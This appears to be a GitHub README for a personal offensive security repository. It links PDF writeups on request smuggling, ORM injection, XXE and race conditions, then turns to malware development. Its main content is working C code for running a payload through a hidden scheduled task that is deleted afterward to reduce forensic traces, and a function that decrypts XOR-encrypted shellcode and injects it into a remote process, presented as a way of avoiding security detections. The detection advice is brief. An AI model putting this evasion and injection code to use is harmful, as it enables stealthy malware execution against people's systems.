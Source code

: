 # Offensive Security Writeups by Samir  

This repository contains various writeups and research documents on offensive security topics, including web vulnerabilities, injection techniques, and memory exploitation. These documents are continuously updated with new research and insights.  

## 📜 Available Writeups  

1. [How CL.TE Request Smuggling Works](./How%20CL.TE%20Request%20Smuggling%20Works.pdf) – Explanation of CL.TE request smuggling attacks and their impact.  
2. [ORM Injection](./ORM%20Injection.pdf) – A deep dive into Object-Relational Mapping (ORM) injection techniques.  
3. [Vulnerabilities](./Vulnerabilities.pdf) – General overview of common security vulnerabilities and their exploitation.  
4. [Why and How Other Users' Requests Are Intercepted](./Why%20and%20How%20Other%20Users%27%20Requests%20Are%20Intercepted.pdf) – Research on request interception and session hijacking.  
5. [XXE Injection](./XXE%20Injection.pdf) – A breakdown of XML External Entity (XXE) attacks and mitigation techniques.
6. [Exploiting Race Condition](./EXPLOITING%20RACE%20CONDITION.pdf) - race condition occurs when multiple threads or processes access shared resources simultaneously in an unsynchronized manner, leading to unpredictable behavior or security vulnerabilities.


## 💀 **Malware Development – Parent PID Spoofing via Task Scheduler**

### 🔍 **Technique Explanation**
This technique abuses **Windows Task Scheduler** to create a scheduled task that runs a **malicious payload** while spoofing the **Parent Process ID (PPID)**. This allows malware to execute under a **legitimate process**, such as `explorer.exe`, making it harder to detect.

### 🚀 **How It Works:**
1. **Task Scheduler Object Creation**
   - Initializes the **COM Library**.
   - Retrieves the **Task Scheduler** object.

2. **Creating a Task**
   - A new scheduled task named `ExecME` is created.
   - The task is set to execute `explorer.exe` (which can be modified to run a payload).
   - Parameters and flags are configured for execution.

3. **Saving & Executing the Task**
   - The task is saved to disk and immediately executed.
   - This **bypasses process monitoring tools**, as the malicious process inherits the **legitimate PPID** of `explorer.exe`.

4. **Cleanup & Evasion**
   - The script **deletes the task** after execution, reducing forensic traces.

### 🛡 **Detection & Mitigation:**
✔ Monitor **Windows Event Logs** (Event ID 4698 – Scheduled Task Creation).
✔ Restrict **Task Scheduler permissions** to prevent unauthorized task creation.
✔ Use **behavior-based detection** for suspicious scheduled tasks.

---

## 📝 **Code: Parent PID Spoofing using Task Scheduler**

```c
int spoof_ppid_with_scheduler() {
    HRESULT hr = S_OK;
    ITaskScheduler *pITS;

    // Initialize COM library
    hr = CoInitialize(NULL);
    if (FAILED(hr)) {
        printf("[!] Failed to initialize COM library. Error code = 0x%x\n", hr);
        return -1;
    }

    // Get Task Scheduler object
    hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void **)&pITS);
    if (FAILED(hr)) {
        printf("[!] Failed to get Task Scheduler object. Error code = 0x%x\n", hr);
        CoUninitialize();
        return -1;
    }

    LPCWSTR pwszTaskName = L"ExecME";
    ITask *pITask;
    IPersistFile *pIPersistFile;

    // Create new task
    hr = pITS->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pITask);
    if (FAILED(hr)) {
        printf("[!] Failed creating new task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Set task parameters
    pITask->SetComment(L"Executing payload");
    pITask->SetApplicationName(L"C:\\Windows\\System32\\explorer.exe");
    pITask->SetWorkingDirectory(L"C:\\Windows\\System32");
    pITask->SetParameters(L"payload_parameters_here");
    pITask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);

    // Save the task
    hr = pITask->QueryInterface(IID_IPersistFile, (void **)&pIPersistFile);
    if (FAILED(hr)) {
        printf("[!] Failed saving task. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    hr = pIPersistFile->Save(NULL, TRUE);
    pIPersistFile->Release();
    if (FAILED(hr)) {
        printf("[!] Failed saving task to disk. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Run the task
    hr = pITask->Run();
    pITask->Release();
    if (FAILED(hr)) {
        printf("[!] Failed to run task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Clean up
    pITS->Delete(pwszTaskName);
    pITS->Release();
    CoUninitialize();

    printf("[+] Task Scheduler spoofing successful.\n");
    return 0;
}
```

---

## 🏴 **Upcoming Research & Updates**
✔ New techniques in **malware evasion**.
✔ More **offensive security writeups**.
✔ Research on **custom payload execution**.
✔ Advanced **Windows & Linux attack techniques**.
### Injecting Shellcode into a Remote Process

```c
int inject_shellcode(HANDLE processHandle) {
    PVOID remoteBuf;
    SIZE_T allocSize = encrypted_shellcode_len;

    // Allocate memory in the target process
    NTSTATUS status = NtAllocateVirtualMemory(processHandle, &remoteBuf, 0, &allocSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to allocate memory in target process.\n");
        return -1;
    }

    // Decrypt shellcode
    unsigned char decrypted_shellcode[sizeof(encrypted_shellcode)];
    unsigned char expanded_key[EXPANDED_KEY_LEN];
    expand_key(key, strlen(key), expanded_key, EXPANDED_KEY_LEN);
    memcpy(decrypted_shellcode, encrypted_shellcode, sizeof(encrypted_shellcode));
    xor_decrypt(decrypted_shellcode, sizeof(encrypted_shellcode), expanded_key, EXPANDED_KEY_LEN, iv, IV_LEN);

    // Write memory
    SIZE_T bytesWritten = 0;
    status = NtWriteVirtualMemory(processHandle, remoteBuf, decrypted_shellcode, sizeof(decrypted_shellcode), &bytesWritten);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to write memory in target process.\n");
        return -1;
    }

    // Execute shellcode
    HANDLE hThread;
    status = NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, processHandle, remoteBuf, 0, NULL, NULL, NULL, NULL, NULL);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to create thread in target process.\n");
        return -1;
    }

    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

**Explanation:** This function injects and executes shellcode inside a remote process:

1. **Allocate Memory in Target Process:** Uses `NtAllocateVirtualMemory` to reserve memory in the target process.
2. **Decrypt Shellcode:** The encrypted shellcode is decrypted using XOR-based decryption with an expanded key.
3. **Write Decrypted Shellcode to Target Process:** The `NtWriteVirtualMemory` function writes the shellcode into the allocated memory.
4. **Execute Shellcode in a New Thread:** `NtCreateThreadEx` is used to create a remote thread inside the target process, executing the shellcode.
5. **Wait for Execution Completion:** `WaitForSingleObject` ensures the execution is completed before returning.

This method enables process injection while avoiding common security detections.
